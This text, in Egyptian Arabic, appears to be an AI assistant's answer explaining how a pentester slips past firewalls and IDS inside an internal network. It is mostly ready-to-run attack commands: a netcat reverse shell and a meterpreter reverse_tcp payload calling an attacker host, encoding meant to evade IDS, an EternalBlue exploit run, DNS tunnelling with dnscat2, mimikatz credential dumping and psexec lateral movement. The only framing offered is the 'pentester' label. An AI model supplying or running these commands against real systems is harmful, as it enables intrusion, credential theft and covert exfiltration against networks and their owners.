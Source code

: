 تمام، هشرحلك موضوع "Bypassing Internal Network Protections" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Bypassing Internal Network Protections بعمق**
المقصود هنا إنك بتحاول تتخطى الحمايات اللي موجودة داخل شبكة داخلية (Internal Network)، زي الفايروولز، أنظمة كشف التسلل (IDS/IPS)، أو القواعد اللي بتمنع الوصول لبعض الأجهزة أو الخدمات. الشبكات الداخلية عادةً بتبقى محمية أكتر من الخارج، لكن لو لقيت طريقة تدخلها (زي عن طريق ثغرة أو VPN)، بتبدأ تشوف ازاي تتحرك جواها من غير ما تتكشف.

- **الحمايات الداخلية:** دي ممكن تكون فايروول بيحجب بورتات معينة، أو IDS بيراقب حركة البيانات، أو حتى سيرفرات مش بتسمح بالاتصال إلا من IPs معينة.
- **الهدف:** الوصول لموارد حساسة (زي داتابيز، سيرفرات داخلية، أو ملفات) رغم الحمايات دي.

**مثال بسيط:**
لو دخلت على شبكة داخلية عن طريق شيل من موقع، وفي فايروول بيمنعك تفتح بورت 445 (SMB)، ممكن تستخدم تقنية زي Tunneling عشان تتخطاه.

**خلاصة بالعامية:**  
يعني كأنك دخلت بيت حد من الباب الخلفي، بس لسه في كاميرات وأبواب مقفولة جوا، وإنت بتحاول تتحرك من غير ما الحراس يشوفوك.

---

### **2. الجانب العملي: ازاي بنتخطى الحمايات الداخلية**
هنشرح الطرق الشائعة مع أمثلة عملية:

#### **أ. استخدام Tunneling (نقل البيانات عبر نفق)**
لو الفايروول بيحجب بورتات معينة، بنستخدم Tunneling عشان ننقل البيانات عبر بورت مسموح (زي 80 أو 443).

- **مثال عملي (SSH Tunneling):**
  لو عندك وصول لسيرفر داخلي عبر SSH، اعمل نفق:
  ```
  ssh -L 12345:internal-server:445 user@compromised-server
  ```
  ده هيخليك تفتح بورت 445 (SMB) على الـ `internal-server` من جهازك عبر البورت 12345 على السيرفر المخترق.

- **أمر عملي كـ Pentester:**
  لو عندك شيل على سيرفر، نزل أداة زي `netcat` واعمل Reverse Tunnel:
  ```
  nc -e /bin/sh your-ip 4444
  ```
  واستمع على جهازك:
  ```
  nc -lvnp 4444
  ```

**خلاصة بالعامية:**  
كأنك بتحفر نفق تحت الأرض عشان تتحرك من غير ما الفايروول يحس بيك.

#### **ب. استغلال Proxying**
لو في سيرفر داخلي بيسمح بالاتصال للخارج، بنستخدمه كـ Proxy عشان نوصل لأجهزة تانية.

- **مثال عملي (SOCKS Proxy):**
  لو عندك وصول SSH، اعمل SOCKS Proxy:
  ```
  ssh -D 9050 user@compromised-server
  ```
  وبعدين استخدم أداة زي `proxychains`:
  ```
  proxychains nmap -sT 192.168.1.0/24
  ```
  ده هيسكان الشبكة الداخلية من خلال السيرفر المخترق.

- **أمر عملي:**
  جرب أدوات زي `chisel`:
  ```
  chisel server -p 8000 --reverse (على جهازك)
  chisel client your-ip:8000 R:445:internal-server:445 (على السيرفر)
  ```

**خلاصة بالعامية:**  
زي ما تستخدم واحد جوا البيت يفتحلك الأبواب من غير ما الحراس يشوفوك.

#### **ج. تجاوز IDS/IPS**
أنظمة كشف التسلل بتراقب الأوامر أو البيانات الغريبة، فبنحاول نعديها بتشفير أو تقطيع البيانات.

- **مثال عملي:**
  لو بتبعت شيل عكسي، شفر البayload بـ `msfvenom`:
  ```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=your-ip LPORT=4444 -e x86/shikata_ga_nai -f exe -o payload.exe
  ```
  ارفعه ونفذه، التشفير هيخليه يعدي الـ IDS.

- **أمر عملي:**
  استخدم HTTPS بدل HTTP لو الاتصال مراقب:
  ```
  nc -lvnp 443 (استمع على بورت 443)
  ```

**خلاصة بالعامية:**  
كأنك بتتكلم بلغة مشفرة عشان الكاميرات ما تفهمش إنت بتعمل ايه.

#### **د. استغلال Misconfigurations**
كتير من الشبكات الداخلية فيها إعدادات غلط، زي بورتات مفتوحة أو خدمات قديمة.

- **مثال عملي:**
  لو لقيت SMB مفتوح (بورت 445)، جرب EternalBlue:
  ```
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOST internal-server
  exploit
  ```

- **أمر عملي:**
  اسكان الشبكة الداخلية بـ `nmap`:
  ```
  nmap -sV -p- 192.168.1.0/24
  ```

**خلاصة بالعامية:**  
لو لقيت باب نص مفتوح أو حاجة قديمة محدش باصصلها، استغلها وادخل منها.

#### **هـ. DNS Tunneling**
لو الفايروول بيسمح بـ DNS Queries بس، بنستخدمه عشان ننقل بيانات.

- **مثال عملي:**
  استخدم أداة زي `dnscat2`:
  - على جهازك (Server):
  ```
  dnscat2-server your-domain.com
  ```
  - على السيرفر الداخلي (Client):
  ```
  dnscat2-client --dns domain=your-domain.com
  ```

**خلاصة بالعامية:**  
كأنك بتبعت رسايل مخفية في طلبات الدومين عشان تتحرك من غير ما حد ياخد باله.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها الثغرة دي:

1. **SSH Tunneling:**
   - فتح بورتات محجوبة (زي 445 أو 3389) عبر نفق SSH.

2. **SOCKS Proxy:**
   - استخدام سيرفر مخترق كـ Proxy لسكان الشبكة أو الوصول لخدمات داخلية.

3. **Encrypted Payloads:**
   - تشفير الشيلات عشان تتخطى الـ IDS/IPS.

4. **DNS Tunneling:**
   - نقل بيانات أو شيل عبر DNS لو كل البورتات مقفولة.

5. **Exploiting Misconfigurations:**
   - استغلال خدمات قديمة (زي SMB أو RDP) بثغرات معروفة.

6. **Pivoting:**
   - التحرك من جهاز لجهاز داخل الشبكة باستخدام أدوات زي `meterpreter`:
   ```
   route add 192.168.2.0 255.255.255.0 1
   ```

7. **Credential Dumping:**
   - لو وصلت لجهاز داخلي، استخرج بيانات الدخول بـ `mimikatz`:
   ```
   sekurlsa::logonpasswords
   ```

8. **Lateral Movement:**
   - استخدام بيانات الدخول للانتقال بين الأجهزة (زي `psexec`):
   ```
   psexec \\internal-server -u admin -p password cmd
   ```

---

### **نصيحة كـ Pentester:**
- استخدم أدوات زي **Metasploit** و**Proxychains** و**Chisel** للتعامل مع الشبكات الداخلية.
- اسكان الشبكة أول حاجة (بس بحذر عشان الـ IDS ما يكشفكش).
- لو لقيت خدمة مفتوحة، جرب ثغرات معروفة ليها (زي CVE).
- دايمًا شفر اتصالاتك (HTTPS, DNS) عشان تتجنب المراقبة.

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!